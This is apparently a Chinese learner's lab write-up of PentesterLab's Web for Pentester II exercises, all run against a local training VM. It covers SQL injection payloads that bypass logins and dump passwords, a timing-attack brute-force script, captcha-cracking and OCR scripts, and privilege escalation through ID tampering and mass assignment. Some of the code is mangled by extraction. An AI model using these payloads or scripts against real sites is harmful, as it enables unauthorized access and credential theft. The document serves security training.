0x01 搭建
文件下载地址：https://pentesterlab.com/exercises/web_for_pentester_II/attachments
下载之后新建虚拟机直接导入iso文件，之后一路默认下一步即可，开启虚拟机后ifconfig查看ip直接访问就行，如果访问不了，则换成桥接模式。

搭建成功的结果：

官方说明：
如果您还没有这样做，请务必查看我们的第一个练习：Web For Pentester。在开始这一项之前，先从它开始，这一点很重要。
如果您感觉真的很舒服，您可以尝试利用这些漏洞，而无需遵循课程。您只需要能够编写小脚本来发送 HTTP 请求，这样您就可以完成所有这些练习
0x02 SQL注入
官方说明：
本节提供了一些常见的 SQL 注入示例，第一个示例是身份验证绕过，其他示例是更传统的 SQL 注入。
Example 1

首页是一个post的传参，我们先测试一下

这里输入1’发现报错，直接显示了查询语句。。。，那我们根据sql语句构造万能密码即可。
1 SELECT * FROM users WHERE username= '' AND password= '1' or '1' = '1'
构造原因为在sql语法中and优先级高于or，那上述sql语句在处理的时候会先判断username='' AND password='1'很明显为false，接着在判断
username='' AND password='1' or '1'='1'即false or '1'='1' = false or true = true为真。
也就是说如果我们将password赋值为1' or '1'='1将成功绕过，如下图也成功验证。

当然我们也可以利用注释符：
1 令username= admin' or 1=1#则不需要输入password

附上几个其他师傅的姿势，万变不离其宗
1 2 3 4 5 "or"= "a'='a
Example 2

依旧是简单测试，虽然语句与上关一样，但万能密码无效了。于是看了几个wp虽然知道如何通过，但原理有点不清楚。这里有的师傅直接联合注入查询就行了，还有一个是限制了查询结果数，payload如下：
姿势一：


或者：
姿势二：
1 2 3 1 ' order by 3# 接着 1' union select 1 ,2 ,3 #


这里万能密码无效的原因可能是后台源码只允许查询出一条数据，但如果你使用万能秘密，他是恒真的语句，一定会查询出所有数据的，这里就会有冲突。
Example 3

这里输入1’无法报错了，接着输入1\成功报错，这里也是懵逼，看了wp才想到单引号被过滤了。这里还是太菜了，不知道如何构造了，学习一下师傅们的姿势
姿势一
尝试去构造及规避：
1 2 3 4 5 6 7 8 username= \= or 1 = 1 #SELECT * FROM users WHERE username= '\' AND password= 'or 1=1#' SELECT * FROM users WHERE username= ('\' AND password= ') or 1=1 #这里括号起提示作用 即: 构造username=' x' or 1=1 而后面的内容被#注释了,因此我们成功使该sql为真
实践一下，成功绕过。

姿势二：
1 username= \& password= || 1 #
这里与上述姿势一差不多，只不过将or替换为了||。这样的话可以如下变形
1 2 username= \& password= || 1 = 1 #= \& password= or 1 #
Example 4

这关到了熟悉的查询环节，这里对username的参数经过测试没有任何过滤，我们常规思路即可，简单步骤这里不赘述了
1 ?req= username= 'hacker' union select database(),2 ,3

1 ?req= username= 'hacker' union select group_concat(table_name),2 ,3 from information_schema.tables where table_name= 'sqlinjection_example4'

1 2 3 ?req= username= 'hacker' union select group_concat(column_name),2 ,3 from information_schema.columns where table_name= 'sqlinjection_example4' and table_name= 'users' = username= 'hacker' union select group_concat(column_name),2 ,3 from information_schema.columns where table_name= 'users'

1 ?req= username= 'hacker' union select group_concat(id,'-->' ,password),2 ,3 from users

另外既然这关有报错信息，那肯定还可以进行报错注入：
1 ?req= username and updatexml(1 ,concat(0x7e ,(SELECT database()),0x7e ),1 )

剩下不在赘述
Example 5

这关简单测试了下发现是对limit的值的查询，虽然测试了上关的payload可以使用，但不知为何报错注入不可，之后继续测试发现使用联合注入可以进行报错。。。。
1 ?limit= 4 union select updatexml(1 ,concat(0x7e ,(SELECT database()),0x7e ),1 )

正常来说这样即可，不过这里不理解的点是order by判断列数不管用，总是报错，估计和sql语法有关。
1 ?limit= 4 union select group_concat(id,'-->' ,password),2 ,3 from users
查询一番发现如下：
LIMIT和ORDER BY如何组合使用
当同时使用LIMIT和ORDER BY时，应该注意它们是如何组合使用的。
LIMIT和ORDER BY的顺序对结果集有影响。如果在LIMIT之前使用ORDER BY语句，则数据库会先对结果集进行排序，然后放回所需的记录。
例如，下面的查询将返回“employee”表中最高工资的前3个员工：
1 SELECT * FROM employee ORDER BY salary DESC LIMIT 3;
如果先使用LIMIT，再使用ORDER BY，数据库会先返回所需记录，然后对它们进行排序。这可能会导致排序结果不正确。
Example 6

1 SELECT * FROM users GROUP BY group (可控);
sql语句如上，group by会按照后续的字段也就是group关键词进行分组

如上图，这里依旧同example 4的思路即可，也是没任何过滤
Example 7

姿势一：
如上图，sql语句如下
1 SELECT * FROM users WHERE id(可控)
这里先做了报错注入
1 ?id= 1 union select 1 , 2 ,updatexml(1 ,concat(0x7e ,(SELECT group_concat(id,'-->' ,password)from users limit 0 ,1 ),0x7e ),1 )
如上述语句，不过这里只展示了如下图一条数据，接着我尝试用limit展示下一个，但无果，页面提示只能显示一个用户。。。。我不理解

这里看了别的师傅的姿势，学习一下：
1 2 3 ?id= 1 and 1 = 2 UNION SELECT 1 FROM (select count (* ),concat(floor (rand(0 )* 2 ),(select concat(0x5f ,database(),0x5f ,user (),0x5f ,version())))a from information_schema.tables group by a)b= 1 UNION SELECT 1 FROM (select count (* ),concat(floor (rand(0 )* 2 ),(select concat(0x5f ,database(),0x5f ,user (),0x5f ,version())))a from information_schema.tables group by a)b

这里师傅用的是主键重复报错，不过具体原理我记不太清楚了，写完这个系列会去复习一波的。–疑点：为何select后面要跟个1
但这里我尝试接着爆用户名和秘密，但依旧只能有一条数据。接着又去找几篇wp发现还是可以进行报错注入。。。。
1 2 3 ?id= extractvalue(0x7e ,concat(0x7e ,(select concat(username,0x7e ,password)from users limit 9 ,1 )))= updatexml(0x7e ,concat(0x7e ,(select concat(username,0x7e ,password)from users limit 9 ,1 )),0x7e )
且这种payload只需要控制limit即可爆出所有数据，接着我又分析了一下最开始的payload与上述的不同点
1 2 3 ?id= updatexml(1 ,concat(0x7e ,(SELECT group_concat(username,'-->' ,password)from users limit 0 ,1 ),0x7e ),1 )= updatexml(0x7e ,concat(0x7e ,(select concat(username,0x7e ,password)from users limit 9 ,1 )),0x7e )
很明显就是group_concat的原因了，为此我们了解一下这两个函数的区别
concat()函数
功能：将多个字符串连接成一个字符串。
语法：concat(str1, str2,…)
返回结果为连接参数产生的字符串，如果有任何一个参数为null，则返回值为null。
值得注意的是每次只返回的是一行的数据。–这里的测试就直接拿现成的图了，懒得去手工了。
这里借用sqli-labs的users表演示，我们先看看users表的结构以及都有哪些数据。
可以看到users表中有三个字段，分别为id、username、password。然后一共有13条数据。
使用concat()函数演示一下

可以看到concat()将每一次查询的id和username的值连接到一起形成一个字符串返回了，并且一共返回的是13条记录，但是注意当concat()中有一个参数是null时，返回的都是null
group_concat()函数
group_concat()函数是将所有的查询结果拼接成一个字符串返回，不过在不同的字段值之间默认是用逗号隔开的

可以看到返回的值就只有一个值。
像concat()函数那样直接拼接内容，中间没有做隔离，很可能会导致我们无法判断哪些字符是属于哪一个字段的。而group_concat()函数默认是用逗号隔开两行不同查询结果的。当然也支持自己定义隔离的符号。
concat_ws()函数
功能：和concat()一样，将多个字符串连接成一个字符串，但是可以一次性指定分隔符（concat_ws就是concat with separator）
语法：concat_ws(separator, str1, str2, …)
说明：第一个参数就是指定的分隔符。需要注意的是分隔符不能为null，如果为null，则返回结果为null（其他参数哪一个为null也是一样的）。

接下来是这位师傅自己的见解：
1 2 3 4 5 6 7 8 9 在sql注入中，我们要分情况的来使用这三个函数。
文章地址：group_concat()与concat()以及concat_ws()之间的区别
有了这三个函数的解释我们可以清楚的知道上述我最开始使用的payload的错误，因为group_concat函数最终返回的结果只有一行，而此时我还妄想着limit去显示其他行（但实际就一行）这肯定是荒谬的。故此时我们就需要利用left，substring等函数去将那一行长数据进行回显（但无疑在这种方法似乎有点费劲）。
对此如果我们使用cancat函数，那么我们只需要修改limit即可找到所有数据。
姿势二：
其他师傅呢还使用了盲注，我们先简单测试一下
1 ?id= 1 and if(length(database())= 21 ,sleep(5 ),1 )
接着我们根据页面回显就能判断出，database为21个字符，接着我们可以尝试写脚本或者sqlmap跑，这里我就用sqlmap了，毕竟脚本我不会写（大菜鸡）。。。。

赋个源码：咱也不知道师傅们咋找到源码的。。。。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 get "/users/:id" do ActiveRecord : :Base .establish_connection SQLInjectionExample8 .db@user = User .find(params[:id ])if @user begin "SELECT * FROM users WHERE username='#{@user .username} ' " @res = ActiveRecord : :Base .connection.execute(sql).to_a[0 ]:user rescue Exception => e@message = e.to_send end end '/user' do User .create(:username => params[:user ], :password => Digest : :MD5 .hexdigest(SEED +params["password" ]+SEED ))SQLInjectionExample8 .pathend
Example 8

简单测试几下，不难感觉这是一个二次注入，那我们就要首先创造一个含有恶意sql语句的用户名，接着我们需要找某个接口，这个接口会进行数据库查询用户名的功能，这样才能触发我们的恶意数据。
但这里刚开始只有一个创建用户，我并不能找到其他页面，也是看了wp发现可以dirsearch扫一下目录的，如下图扫到了users目录

不过回过头来我发现，那个左侧的数字可以直接点的。。。。


如上图，我们创建用户5之后，点击访问即可
Example 9
先赋个源码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 get '/' do ActiveRecord : :Base .establish_connection SQLInjectionExample9 .dbif params['username' ] && params['password' ] begin "SET CHARACTER SET 'GBK';" ActiveRecord : :Base .connection.execute(sql)ActiveRecord : :Base .connection.quote_string(params[:username ])Digest : :MD5 .hexdigest(SEED +ActiveRecord : :Base .connection.quote_string(params[:password ]+SEED ))"SELECT * FROM users WHERE username='#{name} '" " AND password='" +password+"'" ActiveRecord : :Base .connection.execute(sql).to_arescue Exception => e@message = e.to_s end end if res.size > 0 :index else :login end end

查询页面，测试了一下不知道是啥玩意儿（感觉sql-labs白刷了。。。）看了wp发现是有关宽字节注入的
那我们直接payload，不过#需要编码或者直接用–+，原因：url中#号是用来指导浏览器动作的（例如锚点），对服务器端完全无用（post传参则可以直接#）。
具体也可参考：SQL注入中 #、 --+、 --%20、 %23是什么意思？
这样我们的单引号就逃逸出来了，我们就可以正常万能密码
这里附一个师傅的脚本，用来检测哪些是可以进行宽字节注入的字符
1 2 3 4 5 6 7 8 9 10 def sql9 ():"http://10.108.40.237/sqlinjection/example9/?username=a%{}%27%20or%201=1%23&password=a&submit=Submit" for x in xrange(255 ):hex (x)[2 :]if len (char) == 1 :"0" + charformat (char))if "Success" in html.text:print "[+] 0x{} works" .format (char)print "Done"
0x03 Authentication-认证
官方说明：
本节汇总了身份验证页面中的问题示例：从微不足道的暴力破解到更复杂的问题。
Example 1

进入页面是一个js的登录框，刷题多了就很熟悉，估计这里会有一个Authentication头其中会包含你在上述输入框中输入的用户名和密码，并且是经过base64加密的
1 在HTTP中，基本认证（英语：Basic access authentication）是允许http用户代理（如：网页浏览器）在请求时，提供 用户名 和 密码 的一种方式。
因此我们可以在输入之后通过bp抓一下，进行爆破即可

由上图可得，这里我们可以进行爆破，不过毕竟这里是第一关，我们或许可以尝试弱口令

果不其然，这里admin，admin即可登录
Example 2

第二关没那么幸运，并不是弱口令，不过这里提示我们username是hacker，我们只需要爆破password即可，这里肯定是需要运气成分了，如果你的字典够强大，那肯定可以跑出来。不过这毕竟是第二关，估计不会如此考运气。因此我们看一下wp如何写
官方是这样说的：
1 2 3 This example is an exagerated version of a non-time-constant string comparison vulnerability. If you compare two strings and stop at the first invalid character, a string A with the first 6 characters in common with the string B will take more time to compare than a string A’ with only the first 2 characters in common with the string B. You can use this information to brute force the password in this example.
意思就是如果我们的真正密码是password
此时如果我们拿pahahahah和passwoxxx与上述正确密码进行比较的话，那么肯定passwoxxx比较的时间更长（因为pahhh在第三个字符开始就不匹配了，而passwoxxx会持续匹配），因此我们可以根据比较时间长短来逐位爆破密码：
authentication是逐位比较的，所以正确的为一位位比较下去，这样就会花更长的时间，那么就可以写脚本跑了，不过不会写，这里我就跟着大师傅们学着写：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 import requestsimport timeimport stringfrom requests.auth import HTTPBasicAuthdef auth2 ():"http://192.168.123.41/authentication/example2/" None "" while True :"hacker" , password + "a" ))for pwd in passwords:"hacker" , 'p4ssw0r' + pwd))print ("hacker:{0} -> {1}" .format ('p4ssw0r' + pwd, used_time))if html.status_code == 200 :print ("[*] FIND PASSWORD: {}" .format (password + pwd))return if used_time - base_time > 0.1 :print ("[+] password: {} .." .format (password))break elif base_time - used_time > 0.1 :"a" print ("[+] password: {} .." .format (password))break print ("Use Time: {}, password:{}" .format (time.time()-start, password + pwd))
上述脚本根本爆破不出来，因此一位一位的比较成功的概率是高的。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 import requestsimport timeimport stringfrom requests.auth import HTTPBasicAuthdef auth2 ():"http://192.168.123.41/authentication/example2/" None "" for pwd in passwords:"hacker" , 'p4ssw0r' + pwd))print ("hacker:{0} -> {1}" .format ('p4ssw0r' + pwd, used_time))

这里测试了半天，发现总是爆破不出来，之后选择看看每一位爆破的时间，如上图，发现这种方法不稳定，时间差不好确定，只能把每一次爆破的时间都拿出来进行比较才更可能确定密码。（而且爆破第一位p的时间明显还低于其他字符。。。）只能说这可能是我靶场的问题吧，不过我们学一个思路也是好的。

总的来说误差挺大的。。。。最终密码为：p4ssw0rd 我看着其他师傅的脚本也基本没效果了现在。
但当我输入hacker与上述密码之后，没有登陆成功。。。。真的不理解了，不过等了半天的bp爆破成功了


密码的确没问题，后续又试了试登录成功了。。。。
Example 3

根据提示我们先以user1的身份登陆一下，且bp抓包

可以看到cookie字段中含有user=user1的内容，那基本上就是修改这里了，我们直接将user1修改为admin即可，但同时也要主意将上述的?后面的get传参的内容除去，不然这是会冲突的

Example 4

相同的问题

与上关类似，不过这里修改为了md5加密，那我们将admin加密即可

Example 5

这一关我首先进行了注测，并抓取了对应的数据包，如下图，我们可以看到其中有rack.session的字段，我以为这里需要找到key去伪造这个session，但我不知道去哪找，于是陷入了困境，接着看了wp发现利用的MySQL对数据大小写不敏感的特性？？？
官方这样说道
1 2 3 4 5 此示例显示了不同字符串比较方法的结果。创建用户时，应用程序将以编程方式通过将提供的用户名与现有用户进行比较来检查该用户是否不存在。当您登录时，应用程序将检查您的用户名和密码是否正确，然后将您的用户名保存在您的会话中。最后，每次您访问应用程序时，应用程序都会根据会话中提供的用户名检索用户的详细信息。
这样说的话，我们直接注册Admin即可了，这样在注册的时候是由编程语言完成比较的，很明显admin！=Admin，但在后续登录时，MySQL不区分大小写，会将Admin认为是admin。–不得不说很神奇
这样我们直接以admin：123456登录即可，但最后仍然显示Admin，这点不理解
Example 6
为了修复之前的问题，开发人员决定在用户创建过程中使用区分大小写的比较。根据 MySQL 执行字符串比较的方式，也可以绕过此检查：MySQL 忽略尾随空格（即： pentesterlab 和 pentesterlab 相等）。使用与上面相同的方法，您应该能够假装以用户 admin 身份登录。
那我们直接注册admin 即可注意这里有空格，接着我们用admin用户以及我们设置的密码登录即可
防止此问题的一个好方法是告诉数据库用户名是主键。例如，Tomcat 文档中使用此方法将 SQL 后端用作 Realm。
0x04 Captcha-验证码
官方说明：
在攻击验证码时，在开始一些硬核编码之前，请确保不存在逻辑缺陷或某种可预测性。如果您可以在不破坏验证码的情况下绕过它…请不要破坏它！
关注细节是发现验证码逻辑缺陷的关键。当您需要破解验证码时，请确保检查响应的每个细节。
第一个示例是开发不良的验证码，具有常见的逻辑缺陷，后面的示例更容易破解并且可以破解。
在以下所有示例中，目标是围绕验证码构建自动化，并实现高成功率（大多数情况下为 100%）。
Example 1
映入眼帘的是一个验证码页面，这里的意思估计是要绕过验证码吧？我们看官方提示
此脚本是验证码实施不当的常见问题。为了避免出现错误消息，开发人员在确保其值正确之前先检查验证码参数是否存在：
1 2 3 4 5 6 if params[:captcha ] and params[:captcha ] != session[:captcha ]end
但是，此示例存在一个漏洞：如果未提供验证码，则脚本不会安全失败。
这里看代码就知道，如果我们没有提供captcha参数的话，他就不会进行后续是否正确的判断了，这意味着如果我们删除这个参数，我们直接就可以进入后台而不必输入验证码
当我们先输入验证码抓包后：
如上图，其中包含captcha参数，那我们像下图一样，将该参数删掉看看
如上图，成功绕过
Example 2
仍然是验证码页面，习惯的我直接查看页面源代码，结果有新奇的发现
对应的验证码图片下，有一个隐藏的表单，其中含有的value似乎就是验证码的内容，我们直接复制登录即可，但不清楚是否这样做是正解，我们看一下官方说明
在此示例中，答案由应用程序泄露。通过检查返回的 HTML 页面的源代码，您应该能够编写一个可以自动破解此验证码的脚本。
似乎经过这样的解释我明白了：如果我们找到一个web页面，其中要求你登录，但同时有着验证码的限制导致我们在爆破用户名和密码时会有一定的阻力，此时由于每次刷新验证码的时候，都会在html中显示，这意味着我们可以在爆破的时候，同时抓取html的验证码元素，这样相当于无阻力无限制的爆破用户名和密码了。
Example 3
不过这一关查看源代码会发现什么也没有，但我们继续检查会发现，在cookie处会暴露我们的captcha验证码
官方说明：您还可以使用 JavaScript 控制台从 cookie 中检索验证码并调用 document.cookie ：
Example 4
这关开始没搞懂啥意思，我们看官方说明：
1 2 3 这是一个非常有趣的例子，因为这是我在开发这套练习时犯的一个错误。
这意味着我们只需要得知一次正确的验证码，并且在后续我们可以重复提交该验证码，而不必担心该验证码失效的情况，这意味着我们又可以无限制的爆破响应的用户名和密码了
这两个时间点下都是成功的！
附上一个大佬写的脚本：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 import requestsdef captcha4 ():"http://192.168.123.41/captcha/example4/submit?captcha=kernel&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2" "Cookie" : ("rack.session=114cbd0bbb0b1a7a0758e3566dd975729b7b08f3cc3d86728206e60beacd3dc4" ),"Referer" : "http://192.168.123.41/captcha/example4/" while True :print ("html.code: {}" .format (html.status_code))if "Success" in html.text:print ("[*] Done" )break else :print ("[-] Error" )
不过我认为是有问题的
Example 5
这里虽然没有思路，但在测试的时候发现，你不断的刷新页面，会发现页面回显的验证码是有重复的。但经验少的我并不清楚这有什么弱点，我们继续看官方说明
1 2 这个例子是弱点的最后一个例子，这里的弱点来自用于创建验证码的字典；
这意思是我们可以把这些验证码都保存下来，然后每次用验证码与保存下来的做对比。就可以搞定。
1 2 3 4 5 6 7 0dayz
不过我还是不能理解这种漏洞的利用之处，毕竟是需要爆破的，但这似乎也是有一定利用点的，只不过我们每次需要尝试的次数变多了吧
在附上一个师傅写的脚本，这里我看不太懂。。。懒得读了
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 def captcha5 ():"http://192.168.60.114/captcha/example5/" "http://192.168.60.114/captcha/example5/submit?captcha={}&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2" "./pic/" ).next ()for fi in files:if fi.endswith("png" ):with open (path, "rb" ) as f:print fi, fi[0 : -4 ]0 : -4 ]"html.parser" )"img" )[0 ]["src" ]print srcprint "[+] img_url: {}" .format (url + src)with open ("pic.png" , "wb" ) as f:with open ("pic.png" , "rb" ) as f:if img_md5 in captcha:format (captcha[img_md5]))print "img_content: {}" .format (captcha[img_md5])print "post_url: {}" .format (post_url.format (captcha[img_md5]))if "Success" in html.text:print "[+] Successful.." else :print "[-] Somethine Wrong"
Example 6
感觉这题就上难度了，看官方说明我都整不明白，他是这样说的
1 2 3 4 5 6 7 8 9 10 11 12 13 在这个例子中，我们将使用 OCR 工具（Tesseract）来破解这个简单的验证码。这里的目标是构建一个获得高成功率的脚本。
仔细思考似乎懂了他表达的意思，首先我们看一下这关
如上图，可以看到这关给出的验证码是非常清晰的，也就是易识别。倘若此时该网站存在某些漏洞比如SQL注入，但我们在注入的时候每次都需要手工输入正确的验证码，这无疑增加了我们的阻力。但我们可以通过写自动化脚本来完成。此时由于该网站的验证码易抓取，那我们完全可以每次注入的时候爬取页面的验证码，这便大大减少了我们注入的阻力。
这里尝试了半天发现看不懂脚本，也不会修改脚本，看他们都Python版本都对不上。。。这里就先附上吧
脚本一：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 import pytesseractfrom PIL import Imageimport requestsimport redef main ():"http://192.168.0.104/captcha/example6/" 'img src="(.*?)"/ >' ,html)[0 ]with open ("test.png" , "wb" ) as f:open ("test.png" )"http://192.168.0.104/captcha/example6/submit?captcha=" +text+"img src=" (.*?)"/ >', html)[0] img_content = rs.get(url + img_url).content with open(" test.png", " wb") as f: f.write(img_content) im = Image.open('test.png') im = im.convert('RGBA') pixdata = im.load() for y in range(im.size[1]): for x in range(im.size[0]): if pixdata[x, y][0] == 65 : pixdata[x, y] = (255, 255, 255, 255) #im.show() im.save('test1.png') image = Image.open(" test1.png") text = pytesseract.image_to_string(image) # 使用简体中文解析图片 print(text) # check_url = " http://192.168 .0 .104 /captcha/example7/submit?captcha="+text+" !--注释掉查询的结尾。
脚本二：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 def captcha67 ():"http://10.108.40.237/captcha/example8/" "http://10.108.40.237/captcha/example8/submit?captcha={}&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2" "html.parser" )"img" )[0 ]["src" ]"captcha6.png" with open (img_name, "wb" ) as f:def img_2_str (filename ):"tesseract {} {}" print cmd.format (filename, filename)"" try :format (filename, filename), shell=True )with open (filename+".txt" , "r" ) as f:return strsexcept :print "[-] Error Happend!" return strsif result != "" :format (result)).textif "Success" in html:print "[+] OK!"
Example 7
可以看到这关的验证码依然很清晰，不过有着蓝色部分的阻碍，这使得我们需要修改脚本，下列是官方说明：
1 2 3 4 5 6 7 8 9 10 如果我们使用与上述相同的技术，我们可以看到成功率明显较低。为了提高识别度，我们将尝试删除蓝色的“HatchFill ”。require 'RMagick' Magick : :Image .read("current7.png" ).firstTHRESHOLD )"current7.png" )THRESHOLD 值来提高检测率。只需使用这个简单的技巧，成功率就会提高。而且，由于 tesseract 检测到的信息符合条件（只有一个由小写字符组成的单词），因此获得此速率所需的时间较短。
不过这里那些师傅也没写出来脚本。。。附上GPT对上述部分代码的解释：
1 2 3 4 5 6 7 8 9 10 11 这段代码使用了 Ruby 的 RMagick 库，这是一个用于处理图像的库，可以进行各种图像操作，包括读取、修改和写入图像等。以下是对代码的详细解释：
看来重点就是threshold部分的处理了
Example 8
这里可以看到又是不清晰的验证码了，我们看一下官方说明
1 2 3 4 5 6 7 8 9 10 11 12 在这里我们可以看到图像被内爆了。我们将打开图像，取消内爆并使用之前的技术来提高成功率。require 'RMagick' Magick : :Image .read("current8.png" ).firstIMPLODE )THRESHOLD )"current8.png" )THRESHOLD 和 IMPLODE （ IMPLODE 可以为负）值来提高检测率。
附上GPT对上述代码的解释：
1 2 3 4 5 6 7 8 9 10 11 12 13 这段代码与之前的代码类似，同样使用了 RMagick 库来处理图像。下面是对这段代码的详细解释：
这个爆炸效果是什么意思呢？
1 2 3 4 5 6 7 爆炸效果通常是一种图像处理效果，用于创建一种视觉上的爆炸或扩散效果，使图像中的元素向外扩散或碎裂。这种效果常常用于艺术创作、图形设计、游戏开发等领域，以增加图像的动感和视觉吸引力。
奥~~也就是说我们通过设置IMPLODE爆炸程度，可以达到恢复验证码为正常大小。
Example 9
这关是一个算数验证码题，很明显我们编写脚本会很容易，只需要抓取页面算数的部分，调用某些数学库来计算即可。我们看一下官方解释：
1 该验证码依赖于要求客户端执行简单的算术运算，破解起来非常简单。您可以仅 eval 提供的字符串（可能不是一个好主意），或者您可以编写一个简单的解析器来为您执行算术运算。这种保护可以防止真正愚蠢的机器人，但对于任何会编写一些脚本的人来说，很容易绕过。
附上脚本：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 import reimport requestsfrom bs4 import BeautifulSoupdef captcha9 ():"http://192.168.246.135/captcha/example9/" "http://192.168.246.135/captcha/example9/submit?captcha={}&submit=Submit" "html.parser" ) "form" )[0 ].text print ((form.strip())) match (r"(\d+[+\-*/]\d+)\s*=" , form.strip()) if captcha:eval (captcha.group(1 )) format (result)).textif "Success" in html:print ("[+] OK" )
这个脚本挺简单的，学习一波，顺便问一下GPT上述正则的解释
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 让我们详细解释一下你提供的正则表达式：
在此基础上改良一下，使得他可以重复发送http请求
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 import reimport requestsfrom bs4 import BeautifulSoupdef captcha9 ():"http://192.168.246.135/captcha/example9/" "http://192.168.246.135/captcha/example9/submit?captcha={}&submit=Submit" while True :"html.parser" )"form" )[0 ].text.strip()print (form)match (r"(\d+[+\-*/]\d+)\s*=" , form)if captcha_match:1 )print ("Expression:" , expression)try :eval (expression)print ("Result:" , result)format (result)).textif "Success" in post_response:print ("[+] OK\n" )else :print ("[-] Error in submitting result\n" )except Exception as e:print ("[-] Error in evaluating expression:" , str (e), "\n" )if __name__ == "__main__" :
0x05 Authorization-授权
官方说明：
1 授权问题在 Web 应用程序中非常常见。本节汇总了一些常见的漏洞示例。现代 Web 开发框架通常可以防止各种注入，但无法自动处理此类问题，因为它们无法理解其背后的业务逻辑。出于同样的原因，自动网络扫描仪无法真正测试授权问题；这就是为什么它通常是漏洞的良好来源，并且了解如何测试它们很重要。下面的“批量分配”部分也是一个授权问题，但为了清楚起见，我更喜欢将练习分成两个部分。
Example 1
那我们先登录一下看看
发现了有关user1用户的两个隐私，根据题意我们可以换一个其他浏览器，或者直接注销用户，接着直接访问下隐私的url地址，看看是否要求我们进行用户身份验证。
可见我们并未登录，但仍可以访问uer1用户的隐私
看一手官方说明：
1 2 3 在此示例中，您可以使用以下用户登录： user1 ，密码为“pentesterlab”。登录并尝试后，请注销并尝试访问相同的信息。
Example 2
要求我们访问user2的信息，我们先登陆看看
这里有点懵逼，并不知道要做什么，看一手官方解释
1 在此示例中，您可以使用以下用户登录： `user1` ，密码为 `pentesterlab` 。登录后，您可以开始访问信息并查看使用的模式： `/infos/1` 、 `/infos/2` 。如果不断增加 URL 中的数字，您就可以访问其他用户的信息。
那我们修改看看
可见我们增加url后面的数字，实现了水平越权
Example 3
我们继续登录看看
如上图，发现多了一个edit编辑的功能
这里有了上一关的经验，我想着直接修改数字1看看
果不其然，这里成为了user2用户
看一手官方说明：
1 在此示例中，您可以使用类似于前面看到的方法来访问信息。您不能直接访问信息，但是您可以看到您现在可以编辑信息，并且您可以使用此功能仅通过增加 URL 中的数字来访问其他用户的信息。
0x06 Mass Assignment-覆盖属性
官方说明：
1 2 3 4 5 6 7 8 9 10 11 12 当人们开始使用数据库来存储信息来构建网站时，他们必须手动执行大量 SQL 。很少有人意识到这不是最好的解决方案，并开始研究更智能的替代方案，并开始构建对象关系映射 (ORM )，以便在没有任何 SQL 知识的情况下轻松查询数据库。例如，在 Ruby （使用 ActiveRecord ）中，您可以执行以下操作：@user = User .find_by_name('pentesterlab' )User 对象中检索结果。@user = User .create(myhash) @user .update_attributes(anotherhash)@user 的属性受到保护，攻击者就可以任意覆盖这些属性中的任何一个。在本节中，我们将看到此类问题的一些常见示例： 覆盖属性
Example 1
这里依旧是一脸懵的，还是看一手官方解释吧
1 2 3 4 5 6 7 8 在此示例中，您可以注册一个用户。该应用程序有两个级别的权限：
一开始看这个解释并不清楚是干嘛的，于是看了师傅们的wp才理解。根据之前官方的解释，这里极有可能是服务器会对用户在url输入的内容进行检索，我们抓包看一下数据结构
可以看到是user[username]与user[password]结构，这意味着服务器就是通过检索url中user中键值名为username与password对应的值。也就是说我们可以尝试在url中添加：user[admin]的参数。
如上图，这里我添加了user[admin]=1，可以看到成功越权
Example 2
这里目的相同，不过我们在创建的时候无法添加admin属性了
但这里多了一个功能，我们可以进行更新
在此url下我们继续提交看看
发现这里变成更新了，那我们有理由相信，这位开发人员只在登录的时候进行了限制，但其他接口忘记修改了。那这样的话我们在此尝试添加admin属性看看
成功越权
Example 3
我们先尝试登录
这里说公司一的用户是无权访问公司2的秘密的，但这里我们可以看到有一个modify的新功能，不出所料这里或许是漏洞所在点
我们点击在输入框输入信息后发现url成为了updateprofile，那大概率如果我们在此添加一些属性，也许就可以绕过，但我测试了几番发现总是错误。让我们看一下官方说明：
1 2 3 4 5 在本练习中，您可以使用以下用户登录： user1 ，密码为 pentesterlab 。登录后，尝试访问“Company 2”公司的信息。
1 2 3 4 5 6 7 8 9 10 11 在 Ruby 中使用以下代码：class User < ActiveRecord::Base :company end class Company < ActiveRecord::Base :users end Ruby -on-Rails 强制执行“约定”而不是“配置”，这确实有助于猜测类名称和属性名称......
附上GPT对上述代码的解释
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 这段 Ruby 代码展示了两个 ActiveRecord 模型类，分别是 `User` 和 `Company` 。ActiveRecord 是 Ruby on Rails 中的 ORM （对象关系映射）框架，用于在 Ruby 中操作数据库。1 . User 模型类:`` `ruby class User < ActiveRecord::Base belongs_to :company end ` `` `User` 类继承自 `ActiveRecord::Base` ，表示它是一个 ActiveRecord 模型。`belongs_to :company` 表明 `User` 模型属于（关联到）`Company` 模型。这是一对多关系的一端，即一个公司可以有多个用户，而每个用户只属于一个公司。2 . Company 模型类:`` `ruby class Company < ActiveRecord::Base has_many :users end ` `` `Company` 类同样继承自 `ActiveRecord::Base` ，表示它是一个 ActiveRecord 模型。`has_many :users` 表明 `Company` 模型拥有（关联到）多个 `User` 模型。这是一对多关系的多端，即一个公司可以拥有多个用户。"一对多" （One -to-Many ）关系，其中一个对象（Company ）可以关联到多个其他对象（Users ），而这些其他对象（Users ）只能属于一个特定的对象（Company ）。Rails 中，这样的关联关系还可以带来一些便捷的方法，比如通过 `company.users` 